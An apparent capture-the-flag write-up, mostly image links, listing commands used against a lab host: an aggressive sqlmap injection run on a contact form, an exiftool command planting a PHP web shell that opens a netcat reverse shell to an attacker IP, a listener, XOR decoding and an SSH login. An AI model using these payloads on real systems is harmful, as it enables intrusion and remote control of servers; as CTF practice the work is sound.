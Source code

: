 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/93f21a62-b8f3-4bbb-86fb-2c044a001199)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72bf2211-6966-45ac-b446-6ce76dea7192)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f896c2bc-b5e9-4103-9d85-0495b3a8fb0f)
```
sqlmap -u "http://62.173.140.174:18300/contact.php" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --data="name=as&email=d%40d.ru&message=a"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0493d916-2315-4600-94e5-02462f636eb0)
```
exiftool -DocumentName="<?php system('nc IP 1234 -e /bin/bash'); ?>" file.png
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/222fd2ea-78b4-40b5-aa09-d368967f1602)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7ced86ab-f32f-4b13-8900-ac81d5a976ef)
```
nc -lnvp 1234
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a8dfb044-bbf5-4b52-8156-52085959b4d5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7855fbb-c57d-48f5-8e90-f2ea72b76f8b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d5622e7-4060-4da7-af10-a7dc7dc63ef9)

... revers ing ...

... stega ...

https://fotoforensics.com/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b6bb709e-5498-4daa-9c4c-c291c30acd00)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3db90e76-6baa-4f4f-9346-d90be73d92b3)

https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XOR(%7B'option':'UTF8','string':'Anton'%7D,'Standard',false)&input=Kei

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f8ccbac6-8e8e-40a2-b72a-682c55c2be43)
```
ssh thomas@62.173.140.174 -p 18322
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bb11cc18-22f3-4f08-ac21-4dbcdcddb63a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c32e4ea5-dc01-4808-b19b-a27ab5b964ef)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a49418e-580a-485d-bec1-47148ee2dac9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/95ae89f9-0110-4d2e-8976-77bd7e2f1daf)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0a466fad-7437-4d3a-a79f-4b01ca970651)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a860367b-75ae-41f2-9f25-f945e7b5f766)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/89ef61c8-5cf0-4e61-acd2-2d1d409df283)




